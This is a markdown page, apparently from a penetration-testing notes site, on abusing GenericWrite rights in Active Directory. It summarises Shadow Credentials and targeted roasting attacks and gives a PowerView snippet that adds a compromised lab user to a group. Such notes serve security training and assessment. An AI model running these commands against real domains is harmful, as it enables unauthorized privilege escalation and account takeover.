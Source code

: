 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericWrite

## Over a User

<table><thead><tr><th width="226">Attack</th><th>Description</th></tr></thead><tbody><tr><td><a href="../attacks/adcs.md#shadow-credentials">Shadow Credentials</a></td><td>Abuses write access to a user/computer’s <code>msDS-KeyCredentialLink</code> to add authentication material and impersonate them via PKINIT</td></tr><tr><td><a href="../attacks/kerberoasting.md#targeted-kerberoast">Targeted Kerberoasting</a></td><td>Requests a service ticket (TGS) for a specific SPN to extract and crack the associated service account’s NTLM hash.</td></tr><tr><td><a href="../attacks/as-reproasting.md#targeted-as-reproast">Targeted ASREPRoasting</a></td><td>Requests an AS-REP for a user without Kerberos pre-authentication, allowing offline cracking of their NTLM hash.</td></tr></tbody></table>

## Over a Group

#### Adding Group Member

{% code overflow="wrap" %}
```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
{% endcode %}
